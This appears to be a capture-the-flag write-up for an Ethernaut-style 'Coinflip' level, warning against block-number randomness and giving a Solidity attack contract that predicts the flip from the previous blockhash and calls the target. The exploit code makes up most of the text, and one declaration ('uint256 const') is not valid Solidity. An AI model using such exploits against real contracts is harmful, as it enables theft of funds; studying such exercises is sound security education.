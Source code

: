 # Day 3 - Coinflip

Don't rely on block number for any validation logic. A malicious user can calculate the solution to bypass your validation if both txns in the same block i.e. wrapped in the same function call.

```js
pragma solidity ^0.6.0;
import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract AttackCoinFlip {
  using SafeMath for uint256;
  address public targetContract;
  uint256 const FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _targetContract) public {
    targetContract = _targetContract;
  }

  function attackFlipWithContract() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    CoinFlip(targetContract).flip(side);
  }

  function attackFlipWithoutContract() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    // low level call example: https://solidity-by-example.org/0.6/call/
    bytes memory payload = abi.encodeWithSignature("flip(bool)", coinFlip == 1 ? true : false);
    (bool success, ) = targetContract.call(payload);
    require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```
